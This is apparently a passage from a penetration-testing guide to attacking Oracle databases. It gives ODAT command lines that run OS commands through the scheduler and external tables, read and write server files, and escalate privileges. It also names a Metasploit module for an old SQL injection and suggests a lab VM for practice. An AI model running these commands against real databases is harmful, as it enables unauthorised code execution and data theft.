 ./odat.py dbmsscheduler -s <IP> -d <SID> -U <username> -P <password> --exec "C:\windows\system32\cmd.exe /c echo 123&gt;&gt;C:\hacK"

​More details here​
Execute code via External Tables

./odat.py externaltable -s <IP> -U <username> -P <password> -d <SID> --exec "C:/windows/system32" "calc.exe"

‘ODAT.py’ requires the privilege ‘CREATE ANY DIRECTORY’, which, by default, is granted only to DBA role, since it attempts to execute the file from any and not only “your” directory (the manual version of this attack requires less privileges).

​More details here.​
Read/Write files

./odat.py utlfile -s <IP> -d <SID> -U <username> -P <password> --getFile "C:/test" token.txt token.txt
./odat.py externaltable -s <IP> -U <username> -P <password> -d <SID> --getFile "C:/test" "my4.txt" "my"

​More details here​
Elevating Privileges

​More details here​

You can use the privesc module from odat to escalate privileges. In that link you can find several ways to escalate privileges using odat.

./odat.py privesc -s $SERVER -d $ID -U $USER -P $PASSWORD -h #Get module Help

Vulnerability tested on oracle 10.1.0.3.0 – should work on thru 10.1.0.5.0 and supposedly on 11g. Fixed with Oracle Critical Patch update October 2007.

msf> use auxiliary/sqli/oracle/lt_findricset_cursor

Free Virtual Environment for testing

If you want to practice attacking Oracle databases, the safest way is to register for the Oracle Developer Days Virtualbox VM:
Developer Day - Hands-on Database Application Development
www.oracle.com

Most part of the information in this post was extracted from: https://medium.com/@netscylla/pentesters-guide-to-oracle-hacking-1dcf7068d573 and from https://hackmag.com/uncategorized/looking-into-methods-to-penetrate-oracle-db/​

Other interesting references:

​http://blog.opensecurityresearch.com/2012/03/top-10-oracle-steps-to-secure-oracle.html
